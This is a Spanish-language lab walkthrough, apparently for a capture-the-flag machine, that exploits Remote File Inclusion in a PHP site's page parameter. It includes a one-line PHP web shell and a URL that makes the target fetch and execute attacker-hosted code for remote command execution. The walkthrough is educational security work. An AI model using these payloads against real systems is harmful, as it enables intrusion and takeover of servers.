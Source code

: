 ```html
<nav>
        <ul>
            <li><a href="index.php?page=home">Home</a></li>
            <li><a href="index.php?page=cars">Cars</a></li>
            <li><a href="index.php?page=maintenance_and_repair">Maintenance & Repair</a></li>
            <li><a href="index.php?page=about">About</a></li>
            <li><a href="index.php?page=contact">Contact</a></li>
        </ul>
    </nav>
```

Cuando tenemos casos asi de que se incluyen paginas y que ademas se pueda ver en la URL, como nuestro caso (index.php?page=cars), es un indicio para probar LFI (Local File Inclusion) o RFI (Remote File Inclusion)

## Explotacion (RFI - Remote File Inclusion)

**RFI**: Remote File Inclusion es una vulnerabilidad que permite incluir archivos externos y/o remotos al servidor web

Como mencione, la idea es lograr incluir archivos externos, por lo que, para probar, podemos crearnos un servidor web con python  y ver si recibimos una peticion de la maquina victima

```bash
python3 -m http.server 8080
```
Ahora en la URL del sitio web pondremos:

```ruby
http://192.168.1.88/index.php?page=http://192.168.1.73:8080/
```

Y nos llega una peticion:

![](/assets/img/quick/2.png)

Oberva que en la peticion que hizo, esta esperando por archivos con extension .php: **GET /.php HTTP/1.0**

Ahora para poder "subir" una web shell debemos de hacer lo mismo, pero indicarle un archivo php que queremos, en mi caso creare este:

```php
<?php system($_GET[cmd]); ?>
```
Y observa como se realizo la peticion correctamente

![](/assets/img/quick/3.png)

Pareciera que el archivo se incluyo, y que accediendo a: **http://192.168.1.88/shell.php** lo podremos ejecutar, pero en realidad no, debemos de hacerlo desde la misma URL de la siguiente forma

```ruby
http://192.168.1.88/index.php?page=http://192.168.1.73:8080/shell&cmd=id
```
Y hemos conseguido RCE
